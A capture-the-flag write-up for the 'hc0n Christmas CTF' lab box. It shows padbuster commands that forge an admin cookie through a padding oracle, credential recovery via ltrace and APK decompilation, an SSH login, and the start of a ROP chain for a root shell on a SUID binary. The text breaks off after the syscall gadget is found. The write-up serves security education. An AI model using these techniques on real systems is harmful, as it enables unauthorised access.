## TL;DR

In this challenge we starts with `padding oracle attack` on the cookie `hcon`, and manage to login as user `administratorhc0nwithyhackme` which was found inside `/robots.txt`. There, we can find aes secret key which will be used later.

Then, we decrypt the `IV` found inside `/iv.png`, using runes based on `cicada 3301`.

Next step is to grab the two parts of ssh passwords located inside `/hide-folders`.

Last part is to decrypt the message from port `8080`, using the `IV` and `secret key`, and then we can use the username we find and the password to login via ssh.

In order to move to root, we exploit ROP chain on `hc0n`, which has SUID bit turned on.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh, port `80` with apache http server and port `8080` with some http service.
```bash
PORT     STATE SERVICE    REASON         VERSION                                                                                                                                             
22/tcp   open  ssh        syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                                        
| ssh-hostkey:                                                                                                                                                                               
|   2048 0b:e7:57:fa:16:73:ff:93:03:b8:f6:c5:c3:f3:16:07 (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl8Ks26llDVUI6WmMX4l2SH2Hz0lV7s7zHN7w2Fh4/7dAEN1IEn9/kstN9CbbzrLBIEESqh76Zc3kqku0qVv1bFBua8H99GPBs+JuKOJDPSfxqzZVCo29PD3IfXtjHZE7hDzK5O7Zgc/I1bmql1Jb
GOYEwCd6fkh2PC2wPLVShZCjoNHCst/5ZqJdahgTdnzG5p1G0FXzbIWxjMag55BjTeFjSrX2ZkNnpAkiaTf/EtYldn+t5qoSBk/M2McN+yvGJ78GSheCXHvVn5Wltaguo1lmbasNkNEVk/X4X/WX81QGvpfcRKEy+uWpHsvuSMEwGzj1n2v3zeU1lsAcT
zxYv                                                                                                                                                                                         
|   256 17:8d:5b:e2:80:56:d1:96:e6:86:40:d4:82:c5:b3:08 (ECDSA)                                                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEAiQNhjX4lJu6G9idukrI2lHFzir+MqxwDLsn1L7KIiuHMIABxCZFpVEzGuBt9CdZ8fEreCiw3cY/SKCWFhOOE=                           
|   256 b6:d3:2b:0b:fe:e8:41:da:84:3d:08:c4:a2:71:4e:d9 (ED25519)                                                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMcjbS/2K0TmLZv/kLKs8/68K4/oa8Qy26wwHfYaWdlj                                                                                                           
80/tcp   open  http       syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))                                                                                                                      
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                 
| http-methods:                                                                                                                                                                              
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                 
|_http-title: hc0n Christmas CTF                                                                                                                                                             
8080/tcp open  http-proxy syn-ack ttl 62                                                                                                                                                     
|_http-title: Site doesn't have a title.                                                                                                                                                     
|_http-open-proxy: Proxy might be redirecting requests                                                                                                                                       
| http-methods:                                                               
|_  Supported Methods: GET HEAD POST OPTIONS
```

I added `hc0nChristmasCTF.thm` to my `/etc/hosts`.

### Exploit padding oracle attack to forge cookie and login as administratorhc0nwithyhackme

This is the root page:


We can see the login and register functionally, I created a user and logged in. 


Behind the scenes, we got this `hcon` cookie:
```bash
hcon=lLQpbjts2PnDOGpSOTDFgopNgr9NYw3B
```


I tried to remove one character from the cookie, which is base64 string, and got the message `Invalid padding`.


Since the cookie is in length 24, and I got padding error, I guesses this is using AES-CBC, with block size of 8 (24 = 3 * 2^3) and oracle padding.
So, It might be vulnerable to padding oracle attack, [https://en.wikipedia.org/wiki/Padding_oracle_attack](https://en.wikipedia.org/wiki/Padding_oracle_attack).

I used the tool `padbuster`, this is the line: (It takes time, be patient...)
```bash
padbuster http://hc0nchristmasctf.thm/ 9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt 8 --cookies hcon=9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt --encoding 0 -error='Invalid padding'
```


We can see we got a string. We managed to decrypt the cookie, and get the plain text:
```bash
user=aaaa
```

So, we can use it to forge for ourselves a cookie, let's try to forge cookie for user `LOL`:
```bash
padbuster http://hc0nchristmasctf.thm/ 9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt 8 --cookies hcon=9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt --encoding 0 -error='Invalid padding' -plaintext='user=LOL'
```



We made it! we can grab the cookie:
```bash
6sdNTEISUqBCZXYr269mNQAAAAAAAAAA
```


As we can see, it did searched for user `LOL`, however, it isn't exist.

Now, in order to continue, we need to fuzz, we'll get back to this later. We need to find the username for the admin, in order to create its cookie and login as admin:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ffuf -u 'http://hc0nChristmasCTF.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hc0nChristmasCTF.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 149ms]
images                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 4539ms]
css                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 177ms]
javascript              [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 165ms]
classes                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 154ms]
                        [Status: 200, Size: 1975, Words: 426, Lines: 51, Duration: 156ms]
hide-folders            [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 163ms]
:: Progress: [220545/220545] :: Job [1/1] :: 193 req/sec :: Duration: [0:15:16] :: Errors: 0 ::
```

on `/classes` we can find several php files, however they are all empty, found all under `/admin/*.php`:


Next, I went to `robots.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ curl 'http://hc0nchristmasctf.thm/robots.txt'

#Administrator for / is: administratorhc0nwithyhackme
#remember, remember the famous group 3301 to solve this, the secret IV wait for you!

User-agent: *
Allow: iv.png
``` 

Okay, they told us that the administrator is `administratorhc0nwithyhackme`.

Oh, let's use this administrator name, to create our cookie and login as admin:
```bash
padbuster http://hc0nchristmasctf.thm/ 9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt 8 --cookies hcon=9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt --encoding 0 -error='Invalid padding' -plaintext='user=administratorhc0nwithyhackme'
```



We got this cookie:
```bash
u7oWkmr0TrKomnSFpCLrMmqypZ4zLdrKwG7XVt97a%2Bcvankk1KBpOgAAAAAAAAAA
```

and this is the page we get when using this cookie:



So, we got some secret key.
```bash
SecretKeySpec for the apk: hconkwithyhackme
```

### Find the IV derived from iv.png using cicada 3301 runes decryption

We got `iv.png`, and also that "famous group 3301" can help us to solve this, and get our secret IV.


It looks like some runes, I googled this with famous group 3301. I found this is some famous group called `Cicada 3301` which published super hard challenges online, during 2012-2014.

I found this website the explains about this challenge, [https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved](https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved). 
This table we given on the website. 


and in text format:
| Rune | Letter | Decimal Value | Prime Value |
|------|--------|---------------|-------------|
| ᚠ | F | 0 | 2 |
| ᚢ | V (U) | 1 | 3 |
| ᚦ | TH | 2 | 5 |
| ᚩ | O | 3 | 7 |
| ᚱ | R | 4 | 11 |
| ᚳ | C (K) | 5 | 13 |
| ᚷ | G | 6 | 17 |
| ᚹ | W | 7 | 19 |
| ᚻ | H | 8 | 23 |
| ᚾ | N | 9 | 29 |
| ᛁ | I | 10 | 31 |
| ᛄ | J | 11 | 37 |
| ᛇ | EO | 12 | 41 |
| ᛈ | P | 13 | 43 |
| ᛉ | X | 14 | 47 |
| ᛋ | S (Z) | 15 | 53 |
| ᛏ | T | 16 | 59 |
| ᛒ | B | 17 | 61 |
| ᛖ | E | 18 | 67 |
| ᛗ | M | 19 | 71 |
| ᛚ | L | 20 | 73 |
| ᛝ | NG (ING) | 21 | 79 |
| ᛟ | OE | 22 | 83 |
| ᛞ | D | 23 | 89 |
| ᚪ | A | 24 | 97 |
| ᚫ | AE | 25 | 101 |
| ᚣ | Y | 26 | 103 |
| ᛡ | IA (IO) | 27 | 107 |
| ᛠ | EA | 28 | 109 |

Now, we can try to decode
```bash
THEIVFORINGEOAEY
```

### Find first part of ssh password, located at /hide-folders/1

When we visit `/hide-folders` which was found using `ffuf`, we can see 2 folders:



The first folder gives us `method not allowed`:



It looks very uncommon this error message, so I tried to check with http methods are allowed using `OPTIONS`:


We got the first part of the ssh password:
```bash
hax0r :3 you win firts part of the ssh password
Gf7MRr55
```

### Find second part of ssh password inside hola, located at /hide-folders/2/hola

Let's continue to `/2`. We can see the file `hola`:



I downloaded this file, it seems to be some executable file:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ls -la hola                                          
-rwxrwxr-x 1 agonen agonen 8824 Jan  7 14:56 hola
```



I tried my luck, but it didn't work. Then, I used `ltrace` and found the username and password:
username is `stuxnet`:



The password is `n$@#PDuliL`



Now, I tried to execute `hola` again:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ./hola       
Enter your username:
stuxnet
Enter your password:
n$@#PDuliL

Welcome, Login Success! this is a second part of ssh password
```

Alright, we seems to have the ssh password.
Now, we need to find the username.

### Decrypt encrypted aes message to find ssh username and login via ssh

Let's move on to `/admin`.



Let's download this apk file. Using the tool `apktool` we can extract this apk file:
```bash
apktool d app-release.apk
```



We got a lot of `smali` code, which is like assembly just for android.


I want to decompile it into java, let's use this repo [https://github.com/AlexeySoshin/smali2java](https://github.com/AlexeySoshin/smali2java) 

```bash
git clone https://github.com/AlexeySoshin/smali2java.git
cd smali2java
go build
```

and now, we can use it to decompile:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF/smali2java]
└─$ ./smali2java -path_to_smali=../app-release/smali/
```

After decompling, I found inside `smali/com/example/a11x256/frida_test/my_activity.java` something to do with AES.
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF/app-release]
└─$ grep -rain 'AES'          
smali/com/example/a11x256/frida_test/my_activity.java:34:                        final String v6 = "AES/CBC/PKCS5PADDING"; // const-string v6, "AES/CBC/PKCS5PADDING"
smali/com/example/a11x256/frida_test/my_activity.java:42:                        final String v9 = "AES"; // const-string v9, "AES"
smali/com/example/a11x256/frida_test/my_activity.java:131:final String v5 = "AES/CBC/PKCS5PADDING"; // const-string v5, "AES/CBC/PKCS5PADDING"
smali/com/example/a11x256/frida_test/my_activity.java:139:final String v8 = "AES"; // const-string v8, "AES"
smali/com/example/a11x256/frida_test/my_activity.smali:56:    const-string v6, "AES/CBC/PKCS5PADDING"
smali/com/example/a11x256/frida_test/my_activity.smali:74:    const-string v9, "AES"
smali/com/example/a11x256/frida_test/my_activity.smali:211:    const-string v5, "AES/CBC/PKCS5PADDING"
smali/com/example/a11x256/frida_test/my_activity.smali:229:    const-string v8, "AES"
```

Okay, all what is want to say to us is that on port `8080` we get some encrypted message:
```bash
RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=
```



Remember we already found secret key `hconkwithyhackme` and IV `THEIVFORINGEOAEY`, let's try to decrypt it using [https://www.devglan.com/online-tools/aes-encryption-decryption](https://www.devglan.com/online-tools/aes-encryption-decryption)



we got this message.
```bash
user ssh <3 thedarktangent
```

Remember, we already found the ssh password, now we got the credentials for ssh login
```bash
thedarktangent:Gf7MRr55n$@#PDuliL
```

we can login via ssh:
```bash
ssh thedarktangent@hc0nChristmasCTF.thm # Gf7MRr55n$@#PDuliL
```



and grab the user flag:
```bash
thedarktangent@ubuntu:~$ cat user.txt 
thm{hc0n_christmas_2019!!!}

Informacion:

Parte del usuario creado por César Calderón aka @_stuxnet
Si me ves por la h-c0n nos bebemos una birra <3
```

### Privilege Escalation to Root using ROP Chain on hc0n which has SUID bit

I can see on the home page the file `hcOn`, which has SUID bit and is executbale:



I downloaded the file and analyze it with `checksec`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ checksec --file hc0n 
[*] '/home/agonen/thm/Hc0nChristmasCTF/hc0n'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

We can see it has no PIE or canary, but `NX` is turned on, which means stack isn't executbale.

Using [https://dogbolt.org/?id=539b522c-4427-48f5-834a-ebd0afa1aa23#BinaryNinja=186](https://dogbolt.org/?id=539b522c-4427-48f5-834a-ebd0afa1aa23#BinaryNinja=186) I decompiled the file, we can see that it's vulnerbale to buffer overflow:


It crash after 56 bytes, let's start built our `ROP` chain.
I want to execute `execve('/bin/sh', 0, 0)`.
Taken from here [https://docs.xanhacks.xyz/pwn/buffer-overflow/20-rop-x64-execve-syscall/](https://docs.xanhacks.xyz/pwn/buffer-overflow/20-rop-x64-execve-syscall/).
```
rax = 0x3b      ; 'execve' syscall id, 0x3b = 59
rdi = /bin/sh   ; Pointer to "/bin/sh" string in memory.
rsi = 0         ; No argument
rdx = 0         ; No argument

Then, execute syscall.
```

Let's start, first, we need to find `syscall`:
```bash
ROPgadget --binary ./hc0n --only "syscall"
```

we got the address `0x00000000004005fa`.

